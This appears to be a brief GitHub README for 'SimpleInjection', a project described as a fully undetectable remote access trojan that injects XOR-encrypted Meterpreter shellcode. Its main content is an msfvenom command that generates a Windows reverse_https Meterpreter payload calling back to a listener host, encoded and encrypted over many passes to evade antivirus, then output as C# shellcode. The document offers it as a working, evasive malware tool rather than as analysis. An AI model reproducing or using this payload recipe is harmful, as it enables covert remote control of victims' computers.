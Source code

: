 # SimpleInjection
FUD RAT (Xor encrypted Meterpreter, shellcode injector)

to generate shellcode:

msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -e x64/zutto_dekiru -i 20 --encrypt xor --encrypt-key byte4RR4Y -f csharp


![7R5CcVwJfzn3](https://user-images.githubusercontent.com/121404035/210647849-107fb416-314d-4eeb-a4e1-ef55199f8b42.png)
